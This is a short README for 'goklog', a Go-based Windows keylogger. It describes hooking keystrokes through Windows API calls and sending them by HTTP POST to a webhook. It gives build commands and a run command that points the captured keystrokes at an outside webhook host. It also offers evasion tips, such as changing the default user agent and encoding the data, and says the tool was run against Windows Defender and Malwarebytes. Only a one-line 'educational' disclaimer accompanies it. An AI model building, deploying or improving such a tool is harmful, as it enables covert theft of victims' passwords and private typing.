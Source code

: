 # goklog
Go based Windows Keylogger sending ASCII to Webhooks

## Syntax
go build -o goklog.exe goklog.go
.\goklog.exe 'https://webhook-test.com/<YOUR-UNIQUE-IDENTIFIER>'

## Disclaimer
Educational purposes only. 

## Context 
Uses native Windows API calls including SetWindowsHookExW, CallNextHookEx, GetMessageW from user32.dll to globally monitor keyboard strokes and then filters out ASCII printable characters and HTTP POSTs them to a webhook. Notice that I leave default go client user agents. You need to change that yourself or add base64 and include unicode or non printable characters as part of your buffer.
Notes about what I learned from varying articles and Go syntax constructs vs. Python in the comments. 

## Runtime test
This has been run on Windows 11 x64 bit and with Windows Defender and Malwarebytes Premium 

## Demo
![enter image description here](https://github.com/dc401/goklog/blob/main/goklog-running-demo.gif?raw=true)
